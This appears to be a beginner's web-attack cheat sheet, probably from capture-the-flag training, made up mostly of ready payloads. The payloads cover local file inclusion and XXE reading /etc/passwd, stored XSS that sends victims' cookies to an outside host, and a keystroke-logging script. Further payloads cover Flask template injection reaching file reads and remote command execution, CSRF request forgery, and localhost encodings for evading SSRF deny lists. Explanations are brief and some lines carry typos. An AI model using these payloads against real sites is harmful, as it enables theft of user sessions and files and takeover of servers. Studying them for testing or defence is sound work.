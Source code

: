 ### LFI (local file inclusion)

If you see a parameter you can try LFI on it.
```
http://127.0.0.1/?file=page.php
```
We can not try view a file on the system.
```
http://127.0.0.1/?file=../../../../../../etc/passwd
```

### XXE (XML External Entity)

This abuses features of XML parser/Data.

Let's look at the structure.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE file SYSTEM "file.dtd">
<file>
    <to>moon</to>
    <from>cake</from>
    <heading>food</heading>
    <body>XXE attack</body>
</file> 
```
XML document starts with 
```
<?xml version="1.0" encoding="UTF-8"?> 
```
The next part is called the DTD (Document Type Definition)
This defines the elements and attributes.

- !DOCTYPE note -  Defines a root element of the document named note
- !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
- !ELEMENT to - Defines the to element to be of type "#PCDATA"
- !ELEMENT from - Defines the from element to be of type "#PCDATA"
- !ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
- !ELEMENT body - Defines the body element to be of type "#PCDATA"

We can abuse this to read a file on a system.
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
or change something
```
<!DOCTYPE replace [<!ENTITY food "cake"> ]>
 <foodInfo>
  <firstName>moon</firstName>
  <lastName>&food;</lastName>
 </foodInfo>
 ```
 
 ```
 <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<root><name>a</name><tel>a</tel><email>&xxe;</email><password>a</password></root>
```
 
 ### XSS (Cross-Site Scripting)
 
 Injection where an attacker can execute malicious scripts and execute on machine
 
 #### Stored-XSS
 
 See if we can add html tags
 
 <b>comment</b>
 
 See if we can get a popup
 ```
 <script>alert(XSS popup)</script>
 ```
 We can even get cookies or change element with javascript
 
 ```
 <script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
 <script>alert(document.cookie)</script>
 ```
 We can also steal cookies from other users.
 
 ```
 <script>window.location='http://192.168.1.10/?cookie='+document.cookie</script>
 ```
 
 ####  Reflected XSS
 ```
 <script>alert("Hello")</script>
 <script>alert(window.location.hostname)</script>
 ```
 #### DOM-Based XSS
 ```
 test" onmouseover="alert('test')
 test" onmouseover="document.body.style.backgroundColor='red'
 ```
#### Keylogger

```
 <script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script> 
```

<img SRC="test" onmouseover=alert('Hello') />
<img SRC="test" onmouseover=confirm('Hello') />
<img SRC="test" onmouseover=alert('HHelloello') />
<img SRC="test" ONMOUSEOVER=alert('HHelloello') />

### SSTI (server side template injection)

flask for instance
```
check
{{2+2}}
LFI
{{ ''.__class__.__mro__[2].__subclasses__()[40]()(/etc/passwd).read()}}
RCE
{{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}
```
https://github.com/epinna/tplmap
```
./tplmap.py -u http://10.10.10.10:5000/ -d 'noot' --os-cmd "cat/ etc/passwd"
```

### CSRF (Cross Site Request Forgery)

```
<img src="http://localhost:3000/transfer?to=alice&amount=100">
```
```
pip3 install xsrfprobe
xsrfprobe -u <url>/<endpoint>
```

### JWT (JSON Web Token)

```
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"
HEAD.PAYLOAD.SECRET
```
https://jwt.io/
https://www.base64url.com/
https://github.com/lmammino/jwt-cracker

### SSRF (Server Side Request Forgery)

Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.
